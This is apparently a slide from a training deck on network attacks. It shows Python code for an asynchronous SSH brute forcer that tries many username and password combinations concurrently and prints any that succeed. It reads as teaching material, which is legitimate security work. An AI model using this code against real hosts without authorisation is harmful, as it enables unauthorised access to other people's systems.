

Network (cont.)
Brute Forcing Network Services (cont.) : Brute Forcing SSH
First, we will import the needed libraries:
import sys, asyncio, asyncssh, argparse, ipaddress
Next, the core part of our SSH brute forcer will be simple enough that it can be written in few lines:
sem = asyncio.Semaphore(100)
async def check_ssh_creds(host, username, password, port=22):
    async with sem:
        try:
            await asyncio.wait_for(
                    asyncssh.connect(host,
                        username=username,
                        password=password,
                        port=port,
                        public_key_auth=False),
                    timeout=3)
            print("[+] Credentials found:", host, username, password)
        except Exception as e:
            pass
91